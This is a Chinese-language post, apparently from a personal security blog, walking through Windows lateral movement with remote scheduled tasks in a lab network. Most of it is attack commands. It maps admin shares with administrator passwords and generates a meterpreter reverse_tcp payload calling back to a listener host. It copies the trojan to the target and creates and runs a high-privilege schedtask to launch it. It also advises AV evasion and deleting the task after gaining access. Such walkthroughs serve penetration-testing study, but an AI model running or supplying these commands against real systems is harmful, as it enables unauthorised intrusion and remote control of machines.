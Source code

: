 ```yaml
---
title: 横向移动：schtasks远程计划任务
categories:
- windows
tags:
- windows
---
```


## 视频教程：
[横向移动手法介绍](https://www.bilibili.com/video/BV1Hz4y1Z7pJ)
## 拓扑图

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-04-06/10.png)

## 执行的命令

```
net user administrator 123456
net user administrator qwe123!
net use \\192.168.123.67\admin$ /user:"administrator" 123456

win10提示:服务器没有配置远程管理的功能
win2008 命令成功完成
net use \\192.168.123.24\admin$ /user:"administrator" qwe123!
net time \\192.168.123.24 提示服务尚未启动
at \\192.168.123.24

生成木马
handler -H 192.168.123.138 -P 4444 -p windows/meterpreter/reverse_tcp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.138 LPORT=4444 -f exe -o payload.exe

上传木马
xcopy C:\Users\whale\Desktop\p\0404.exe \\192.168.123.24\admin$\temp\

调整字符集
chcp 437

创建计划任务
schtasks /create /s 192.168.123.24 /u "administrator" /p "qwe123!" /RL HIGHEST /F /tn "todayfive" /tr "C:/Windows/temp/0404.exe" /sc once /st 17:03:00

设置无论用户是否登陆，都执行计划任务

run whether user is logged on or not 

schtasks /create /s 192.168.123.24 /u "administrator" /p "qwe123!" /RL HIGHEST /F /tn "todayfive" /tr "C:/Windows/temp/0404.exe" /sc once /st 17:03:00 /NP


查看帮助
schtasks /create /?

执行计划任务
schtasks /run /tn todayfive /s 192.168.123.24 /U "administrator" /P "qwe123!"

查看运行状态
schtasks /query /s 192.168.123.24 /U "administrator" /P "qwe123!" | findstr "todayfive"

删除
schtasks /delete /F /tn todayfive /s 192.168.123.24 /U " administrator" /P "qwe123!"
```

在远程的目标机器上创建计划任务
1. 被动密码搜集的方式
2. 指定计划任务执行的时间
3. exe免杀木马

注意：
- win7以后使用schtasks命令，之前使用at命令
- 应用场景：快速横向移动拿权限用的。
- 非稳定控制的方式。需要自行免杀绕过av。
- 拿到权限就删掉计划任务
- 中文系统要调整字符集
